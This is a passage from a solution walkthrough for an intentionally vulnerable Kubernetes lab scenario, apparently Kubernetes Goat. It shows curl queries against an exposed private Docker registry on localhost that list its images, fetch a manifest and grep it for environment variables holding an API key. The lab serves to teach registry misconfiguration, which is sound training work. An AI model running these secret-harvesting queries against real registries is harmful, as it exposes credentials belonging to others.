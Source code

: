 ## 🎉 Solution & Walkthrough

### 🎲 Method

:::note

As this is an intentionally vulnerable design, we directly provided the endpoint. In the real world, you have to do some recon or even need to exploit the authenticated registries by a combination of other vulnerabilities chains.

:::

* Based on the scenario and information, we can identify that it's possible docker container private registry

* After reading some documentation and googling, here are the simple API endpoint queries for talking to the container registry

* To query the registry API v2

```bash
curl http://127.0.0.1:1235/v2/
```

* The following endpoint is to query the catalog information, which returns all the details of images available in the container registry

```bash
curl http://127.0.0.1:1235/v2/_catalog
```

![Scenario 7 image catalog](./sc-7-2.png)

* We can get more information about the specific image using the image name with a tag with a manifest endpoint

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest
```

![Scenario 7 image info](./sc-7-3.png)

* Now we can see this container image has ENV variables that contain API key information, so we can quickly `grep` that out

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest | grep -i env 
```

![Scenario 7 api key info](./sc-7-4.png)
